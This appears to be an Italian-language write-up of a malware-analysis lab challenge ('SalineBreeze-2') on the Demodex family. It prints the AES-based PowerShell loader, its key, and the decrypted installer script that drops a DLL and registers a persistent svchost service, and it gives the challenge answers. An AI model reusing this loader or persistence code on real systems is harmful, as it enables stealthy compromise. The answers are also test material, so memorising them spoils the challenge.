# SalineBreeze-2





### 1. What is the name of the malware family associated with the provided file?



```
demodex
```

### 2. What .NET cryptographic class is used to perform decryption in the script?

Il file esegue dei comandi powershell che decifra la stringa **$s** con una chiave codificata in base64. In questo modo offusca il codice malevole.





```
$s="...";

$k=$args[0].ToString().padright(32,'0');

$o=New-Object([System.Text.Encoding]::UTF8.GetString( [System.Convert]::FromBase64String("U3lzdGVtLlNlY3VyaXR5LkNyeXB0b2dyYXBoeS5BZXNNYW5hZ2VkCg==")));

$o.KeySize=256;

$o.Key=[System.Text.Encoding]::UTF8.GetBytes($k);

$o.IV=@(0)*16;

$s0=$([System.Convert]::FromBase64String($s));

$s1=$o.CreateDecryptor().TransformFinalBlock($s0, 0, $s0.Length);

[ScriptBlock]::Create([System.Text.Encoding]::UTF8.GetString($s1)).Invoke();
```

In particolare, per la definzioni di **$o** si offusca con un base64 encoding il nome della classe .NET utilizzata per la decifratura del codice.



```
$s="...";

$k=$args[0].ToString().padright(32,'0');

$o=New-Object("System.Security.Cryptography.AesManaged");

$o.KeySize=256;

$o.Key=[System.Text.Encoding]::UTF8.GetBytes($k);

$o.IV=@(0)*16;

$s0=$([System.Convert]::FromBase64String($s));

$s1=$o.CreateDecryptor().TransformFinalBlock($s0, 0, $s0.Length);

[ScriptBlock]::Create([System.Text.Encoding]::UTF8.GetString($s1)).Invoke();
```

Il codice viene decifrato con AES 256 con IV di 16 zeri e con la chiave "**$args[0]**" passata a linea di comando alla quale sono aggiunti degli zeri (padding) in modo che la **$k** sia esattamente lunga 32 caratteri.

```
System.Security.Cryptography.AesManaged
```

### 3. The key to decrypt the script must be entered on the command line when running the ps1. What variable holds the key?

```
$k
```

### 4. What is the key required to decrypt the base64 encoded data?





Si crea una copia del file **onedrive.ps1** e si modifica in modo da restituire il codice decifrato, eliminando l'ultimo comando per l'esecuzione del codice e aggiungendo una "Write-Output":

`print_code.ps1`

```
...some stuffs...

$res=[System.Text.Encoding]::UTF8.GetString($s1);
$res | Write-Output
```

Si esegue `powershell.exe -ex bypass .\print_code.exe password@123`.



`malware2.ps1`
```
$svchostdata='...';

$svcname = 'MsMp4Hw';
$svcgroup = 'msgroup';
$svcdesc = 'Microsoft hardware decode';
$svcdllpath = 'C:\Windows\System32\msmp4dec.dll';

$sregkey = 'Software\Microsoft';
$sregvalue = 'hiaudio';
$sregdata = '...';

$cregkey = 'Software\Microsoft';
$cregvalue = 'midihelp';
$cregdata = '...';

$resetkey = 'SOFTWARE\Microsoft\{EAAB20A7-9B68-4185-A447-7E4D21621943}';


try{$svchostbin=$([System.Convert]::FromBase64String($svchostdata));}catch{ Write-Output "E0" ; exit;};
try{$sregbin=$([System.Convert]::FromBase64String($sregdata));}catch{ Write-Output "E1" ; exit;};
try{$cregbin=$([System.Convert]::FromBase64String($cregdata));}catch{ Write-Output "E2" ; exit;};

try{Get-ItemProperty -Path $( "HKLM:\" + $resetkey ) -Name "Name" -ea stop;}catch{ } ;
Start-Sleep -s 1;

if( (Get-Service $svcname -ea SilentlyContinue) )
{
    $svc = Get-Service "$svcname";
    if ( $svc -ne $null )
    {
        try{stop-service -force -inputobject $svc -ea stop;}catch{};
        $osvc = Get-WmiObject -Class Win32_Service -filter $("Name='"+$svcname+"'");
        if ( $osvc -ne $null )
        {
            try{ Stop-Process -id $osvc.ProcessId -Force -ea stop;}catch{};
            try{ $osvc.delete();}catch{};
        };

    };
    Start-Sleep -s 1;
}

taskkill /fi $("modules eq "+[System.IO.Path]::GetFileName($svcdllpath))  /f;
Start-Sleep -s 1;

try{[io.file]::WriteAllBytes( $([System.Environment]::ExpandEnvironmentVariables($svcdllpath)), $svchostbin); }catch{ Write-Output "E:write" ; exit;} ;

try{ $ret = New-Item -Path $( "HKLM:\" + $sregkey ) -ea stop; }catch{ } ;
$ret = New-ItemProperty -Path $("HKLM:\" + $sregkey) -Name $sregvalue -Value $sregbin -PropertyType Binary -Force; if ( $ret -eq $null ) { Write-Output "E:save key";exit; };

if( $cregkey )
{ 
    try{ $ret = New-Item -Path $( "HKLM:\" + $cregkey ) -ea stop; }catch{ } ;
    $ret = New-ItemProperty -Path $("HKLM:\" + $cregkey) -Name $cregvalue -Value $cregbin -PropertyType Binary -Force; if ( $ret -eq $null ) { Write-Output "E:save key2";exit; };
}

$svc = New-Service -name $svcname -binaryPathName $( "%SystemRoot%\System32\svchost.exe -k " + $svcgroup ) -Description $svcdesc; if ( $svc -eq $null ) { Write-Output "E:create svc";exit; }

$ret = New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost" -Name $svcgroup -Value $svcname -PropertyType MultiString -Force; if ( $ret -eq $null ) { Write-Output "E:create svc reg1";exit; }
$ret = New-Item -Path $( "HKLM:\SYSTEM\CurrentControlSet\Services\" + $svcname + "\Parameters")  -Force -ea stop; if ( $ret -eq $null ) { Write-Output "E:create svc reg2";exit; }
$ret = New-ItemProperty -Path $( "HKLM:\SYSTEM\CurrentControlSet\Services\" + $svcname + "\Parameters") -Name "ServiceDll" -Value $svcdllpath  -PropertyType ExpandString -Force;if ( $ret -eq $null ) { Write-Output "E:create svc reg3";exit; }


Write-Host "#";
Start-Service -name $svcname;


```

```
password@123
```

### 5. After decrypting the initial payload, a new PowerShell script assigns a value to the variable $cregvalue. What is that value?

```
midihelp
```

### 6. The variable $cregdata is associated with binary registry data stored as a base64 blob. What is the SHA-256 hash of the binary data?



```
3b1c251b0b37b57b755d4545a7dbbe4c29c15baeca4fc2841f82bc80ea877b66
```

### 7. What is the name of the malicious service?

```
$svcname = 'MsMp4Hw';

...some stuffs...

Start-Service -name $svcname;
```

```
MsMp4Hw
```

### 8. What is the full path of the malicious DLL?

```
$svcdllpath = 'C:\Windows\System32\msmp4dec.dll';

taskkill /fi $("modules eq "+[System.IO.Path]::GetFileName($svcdllpath))  /f;

try{[io.file]::WriteAllBytes( $([System.Environment]::ExpandEnvironmentVariables($svcdllpath)), $svchostbin); }catch{ Write-Output "E:write" ; exit;} ;

$ret = New-ItemProperty -Path $( "HKLM:\SYSTEM\CurrentControlSet\Services\" + $svcname + "\Parameters") -Name "ServiceDll" -Value $svcdllpath  -PropertyType ExpandString -Force;if ( $ret -eq $null ) { Write-Output "E:create svc reg3";exit; }
```

> [svchost.exe](https://en.wikipedia.org/wiki/Svchost.exe)

```
C:\Windows\System32\msmp4dec.dll
```

### 9. What registry path is used to associate the service group (msgroup) with the malicious service, so that it can be launched by svchost.exe?

Guarda [svchost.exe](https://en.wikipedia.org/wiki/Svchost.exe) oppure:

```
$svcgroup = 'msgroup';

$svc = New-Service -name $svcname -binaryPathName $( "%SystemRoot%\System32\svchost.exe -k " + $svcgroup ) -Description $svcdesc; if ( $svc -eq $null ) { Write-Output "E:create svc";exit; }

$ret = New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost" -Name $svcgroup -Value $svcname -PropertyType MultiString -Force; if ( $ret -eq $null ) { Write-Output "E:create svc reg1";exit; }
```

```
HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SvcHost
```

### 10. What is the line of code responsible for starting the malicious service after it has been installed?

```
Start-Service -name $svcname;
```

### 11. Which Windows API does the DLL import to obtain the local computer name?

Si analizza il contenuto del file **C:\Windows\System32\msmp4dec.dll**.




```
GetComputerNameA
```

### 12. In service DLLs, which function is typically responsible for being called by the Service Control Manager to initiate the service?

